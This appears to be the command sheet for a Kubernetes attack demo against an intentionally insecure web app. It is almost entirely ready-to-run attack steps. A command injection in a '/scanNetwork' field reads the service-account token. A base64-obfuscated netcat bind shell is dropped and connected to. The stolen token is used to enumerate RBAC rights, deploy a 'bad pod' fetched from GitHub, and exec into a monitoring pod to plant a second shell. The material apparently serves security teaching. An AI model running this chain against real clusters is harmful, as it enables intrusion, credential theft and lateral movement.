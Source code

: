 kubectl apply -f .

kubectl get pods -A -w

export DEMO_POD=demo-app-insecure-config-5dbd84f6c8-4s4vt

kubectl port-forward $DEMO_POD -n annacon 3000:8080

kubectl port-forward $DEMO_POD -n annacon 9999:9999

127.0.0.1

; cat ../var/run/secrets/kubernetes.io/serviceaccount/token

curl --path-as-is -kis -X 'POST' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-binary 'ip=; echo cm0gLWYgL3RtcC9mOyBta2ZpZm8gL3RtcC9mOyBjYXQgL3RtcC9mIHwgL2Jpbi9zaCAtaSAyPiYxIHwgbmMgLWxwIDk5OTkgPiAvdG1wL2Y | base64 -d | tee /tmp/rev.sh; sh /tmp/rev.sh' \
    'http://localhost:3000/scanNetwork' &

nc 127.0.0.1 9999

script -qc /bin/bash /dev/null

APISERVER=https://kubernetes.default.svc \
SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount \
NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace) \
TOKEN=$(cat ${SERVICEACCOUNT}/token) \
CACERT=${SERVICEACCOUNT}/ca.crt \

## What can i do inside of namespace Annacon?


curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X POST "${APISERVER}/apis/authorization.k8s.io/v1/selfsubjectaccessreviews" -H "Content-Type: application/json" --data-raw '{
  "apiVersion": "authorization.k8s.io/v1",
  "kind": "SelfSubjectAccessReview",
  "spec": {
    "resourceAttributes": {
      "namespace": "annacon",
      "verb": "create",
      "resource": "pods"
    }
  }
}'


curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" \
     -X POST ${APISERVER}/apis/authorization.k8s.io/v1/selfsubjectrulesreviews \
     -s -H 'Content-Type: application/json' \
     -d '{"apiVersion":"authorization.k8s.io/v1","kind":"SelfSubjectRulesReview","spec":{"namespace":"annacon"}}'



## Deploy a new Pod

curl -o bad-pod.yaml https://raw.githubusercontent.com/LarsLefebvre/cloud-native-bad-pods/main/bad-pod.yaml

curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X POST "${APISERVER}/api/v1/namespaces/annacon/pods" -H "Content-Type: application/yaml" --data-binary @bad-pod.yaml


## Exec into new Pod and create Reverse Shell

curl --cacert ${CACERT}
--header "Authorization: Bearer ${TOKEN}"
-X GET "${APISERVER}/api/v1/namespaces/monitoring/pods/$MONITORING_POD/exec?command=sh&command=-c&command=echo%20cm0gLXJmIC90bXAveDsgbWtmaWZvIC90bXAveDsgY2F0IC90bXAveCB8IC9iaW4vc2ggLWkgMj4mMSB8IG5jIC1scCA5OTk5ID4gL3RtcC94%20|%20base64%20-d%20|tee%20/tmp/rev.sh&tty=false&stdin=true&stderr=true&stdout=true"
-s
-H 'Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ=='
-H 'Sec-WebSocket-Version: 13'
-H 'connection: upgrade'
-H 'upgrade: websocket'
--http1.1

curl --cacert ${CACERT}
--header "Authorization: Bearer ${TOKEN}"
-X GET "${APISERVER}/api/v1/namespaces/monitoring/pods/$MONITORING_POD/exec?command=sh&command=-c&command=/bin/sh%20/tmp/rev.sh&tty=false&stdin=true&stderr=true&stdout=true"
-s
-H 'Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ=='
-H 'Sec-WebSocket-Version: 13'
-H 'connection: upgrade'
-H 'upgrade: websocket'
--http1.1
&

curl --cacert ${CACERT}
--header "Authorization: Bearer ${TOKEN}"
-X GET
-s
"${APISERVER}/api/v1/namespaces/monitoring/pods/$MONITORING_POD"
| grep ip

nc $POD_IP 9999

script -qc /bin/bash /dev/null

APISERVER=https://kubernetes.default.svc
SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
TOKEN=$(cat ${SERVICEACCOUNT}/token)
CACERT=${SERVICEACCOUNT}/ca.crt \